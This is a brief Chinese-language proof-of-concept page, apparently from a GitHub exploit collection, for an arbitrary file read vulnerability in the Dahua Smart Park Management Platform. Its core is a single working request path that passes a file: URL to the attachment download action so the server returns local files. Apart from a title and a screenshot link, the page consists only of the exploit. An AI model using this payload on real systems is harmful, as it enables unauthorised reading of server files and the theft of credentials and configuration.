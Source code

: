 # 大华智慧园区管理平台任意文件读取


## 大华智慧园区管理平台任意文件读取

## poc
```
/portal/itc/attachment_downloadByUrlAtt.action?filePath=file:/
```

![image](https://github.com/wy876/POC/assets/139549762/63bb42ac-8bd8-401e-a61b-120e7a910d5c)

